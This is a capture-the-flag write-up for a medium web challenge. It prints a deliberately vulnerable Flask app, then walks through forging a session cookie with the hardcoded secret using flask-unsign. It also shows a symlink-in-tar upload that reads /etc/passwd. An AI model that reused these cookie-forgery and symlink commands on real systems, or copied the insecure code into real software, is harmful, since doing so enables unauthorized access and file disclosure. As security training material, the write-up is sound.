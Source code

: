 ```yaml
---
title: "Web: Slippery Way (Medium)"
date: "2024-09-27"
thumbnail: "/assets/img/thumbnail/ieee-victoris.png"
---
```


# Solution
---
When we get the files of the challenge we will see this file hierarchy.
<img src="/assets/img/ieee-victoris/capture6.png">

and this is `app.py`
```py
from flask import Flask, render_template, request, redirect, url_for, session, send_from_directory
import os
import random
import string
import time
import tarfile
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.secret_key = "V3eRy$3c43T"

def otp_generator():
    otp = ''.join(random.choices(string.digits, k=4))
    return otp

if not os.path.exists('uploads'):
   os.makedirs('uploads')

@app.route('/', methods=['GET', 'POST'])
def main():
    if 'username' not in session or 'valid_otp' not in session:
        return redirect(url_for('login'))

    if request.method == 'POST':
        uploaded_file = request.files['file']
        if uploaded_file.filename != '':
            filename = secure_filename(uploaded_file.filename)
            file_path = os.path.join('uploads', filename)
            uploaded_file.save(file_path)
            session['file_path'] = file_path
            return redirect(url_for('extract'))
        else:
            return render_template('index.html', message='No file selected')
    
    return render_template('index.html', message='')

@app.route('/extract')
def extract():
    if 'file_path' not in session:
        return redirect(url_for('login'))

    file_path = session['file_path']
    output_dir = 'uploads'
    if not tarfile.is_tarfile(file_path):
        os.remove(file_path)
        return render_template('extract.html', message='The uploaded file is not a valid tar archive')

    with tarfile.open(file_path, 'r') as tar_ref:
        tar_ref.extractall(output_dir)
        os.remove(file_path)

    return render_template('extract.html', files=os.listdir(output_dir))

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username == 'admin' and password == 'admin':
            session['username'] = username
            return redirect(url_for('otp'))
        else:
            return render_template('login.html', message='Invalid username or password')
    return render_template('login.html', message='')

@app.route('/otp', methods=['GET', 'POST'])
def otp():
    if 'username' not in session:
        return redirect(url_for('login'))

    if request.method == 'POST':
        otp,_otp = otp_generator(),request.form['otp']
        if otp in _otp:
            session['valid_otp'] = True
            return redirect(url_for('main'))
        else:
            time.sleep(10) # please don't bruteforce my OTP
            return render_template('otp.html', message='Invalid OTP')
    return render_template('otp.html', message='')

@app.route('/logout')
def logout():
    session.pop('username', None)
    session.pop('valid_otp', None)
    session.pop('file_path', None)
    return redirect(url_for('login'))


@app.route('/uploads/<path:filename>')
def uploaded_file(filename):
    uploads_path = os.path.join(app.root_path, 'uploads')
    return send_from_directory(uploads_path, filename)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

When we start the challenge we see this login page
<img src="/assets/img/ieee-victoris/capture7.png">
from the code we will login using `admin:admin` and we will get forwarded to `/otp` endpoint
<img src="/assets/img/ieee-victoris/capture8.png">
We can't go to anyother endpoint without submiting the valid otp.
Trying to brute force  or bypass this page through the otp form is a rabbit hole.

When we look in the source code we will find interesting things.
- Each user of course have a cookie
- This is Flask application which moves us to think about `flask-unsign` cookie
- flask-unsign cookie is something like JWT that needs a secret signing key to forge a cookie
- We already have this secret `app.secret_key = "V3eRy$3c43T"`
- when we decode the cookie we will find this `{"username": "admin"}`
- from the code that if the otp is validated, then `session['valid_otp'] = True`
- So we need to forge a new cookie with username and valid_otp keys
we will use <a href="https://github.com/Paradoxis/Flask-Unsign">flask-unsign</a>
```bash
┌──(youssif㉿youssif)-[~]
└─$ flask-unsign --sign --cookie "{'username': 'admin','valid_otp': True}" --secret 'V3eRy$3c43T' 
eyJ1c2VybmFtZSI6ImFkbWluIiwidmFsaWRfb3RwIjp0cnVlfQ.Zvau5g.TioGBeLlSjBfw2V2CwACLyp9MpM
```
When we use the new cookie we can access the other endpoints
Now visit `/` again and you will find this upload page
<img src="/assets/img/ieee-victoris/capture9.png">

When we go back to upload function in our code we will find that it accepts only tar file
And in `/extract` this uploaded tar got extracted
After searching i found this <a href="https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload">candy</a>
From this article we knew that we can get LFI from tar upload function using
```bash
┌──(youssif㉿youssif)-[~]
└─$ ln -s ../../../../../../../../../etc/passwd kakashi.txt
tar -cvf test.tar kakashi.txt
```
We created a symbolic link from `kakashi.txt` to `../../../../../../../../../etc/passwd`
Then we put it in the tar file.
We will upload the file and when we go to `/extract` it will give us `kakashi.txt`
<img src="/assets/img/ieee-victoris/capture10.png">

open this file
<img src="/assets/img/ieee-victoris/capture11.png">
and GG you got /etc/passwd you can read the flag as the flag path was leaked in `init.sh` file.
Congratzzzzzzzzzzzzzzz